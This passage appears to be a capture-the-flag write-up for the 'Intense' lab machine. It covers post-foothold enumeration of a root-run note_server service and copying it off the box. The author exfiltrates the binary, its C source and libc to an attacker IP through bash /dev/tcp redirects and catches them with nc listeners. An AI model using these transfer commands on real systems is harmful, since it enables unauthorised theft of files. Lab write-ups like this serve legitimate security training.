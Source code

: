 ```bash
-rw-r--r-- 1 user user 3.9K Nov 16  2019 note_server.c
-r--r--r-- 1 root root   33 Nov 14 14:19 user.txt
```

We have a `note_server` binary and the corresponding C-source code. Let us see, if this file is used anywhere.

```bash
Debian-snmp@intense:/home/user$ ps aux | grep note_server
root       1044  0.0  0.0   4380   800 ?        Ss   14:16   0:00 /home/user/note_server
```

Seems like the note_server is being run by root and has the PID of `1044`. Let us use `ss` to see, if the process is using any network-resources.

```bash
Debian-snmp@intense:/home/user$ ss -tlnp
State         Recv-Q         Send-Q                    Local Address:Port                   Peer Address:Port         
LISTEN        0              128                             0.0.0.0:80                          0.0.0.0:*            
LISTEN        0              128                       127.0.0.53%lo:53                          0.0.0.0:*            
LISTEN        0              128                             0.0.0.0:22                          0.0.0.0:*            
LISTEN        0              5                             127.0.0.1:5001                        0.0.0.0:*            
LISTEN        0              128                                [::]:22                             [::]:*
```

Seems like port`5001` is being used, however we cannot confirm for now that this actually is running the `note_server`.

Let us transfer the files to our file-system to further analyze it. 

```bash
Debian-snmp@intense:/home/user$ ldd note_server
        linux-vdso.so.1 (0x00007ffdedbed000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fc3a16ad000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fc3a1ca1000)
```

For the file-transfer, we can use nc.

```bash
Debian-snmp@intense:/home/user$ cat note_server > /dev/tcp/10.10.14.22/1
Debian-snmp@intense:/home/user$ cat note_server.c > /dev/tcp/10.10.14.22/2
0.10.14.22/3intense:/home/user$ cat /lib/x86_64-linux-gnu/libc.so.6 > /dev/tcp/10.10.14.22/3
```

We have now transferred all relevant files and can start analyzing the files.

```bash
root@darkness:~/note_server# nc -lvnp 1 > note_server
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1
Ncat: Listening on 0.0.0.0:1
Ncat: Connection from 10.10.10.195.
Ncat: Connection from 10.10.10.195:51604.
root@darkness:~/note_server# nc -lvnp 2 > note_server.c
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::2
Ncat: Listening on 0.0.0.0:2
Ncat: Connection from 10.10.10.195.
Ncat: Connection from 10.10.10.195:35276.
root@darkness:~/note_server# nc -lvnp 3 > libc.so
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::3
Ncat: Listening on 0.0.0.0:3
```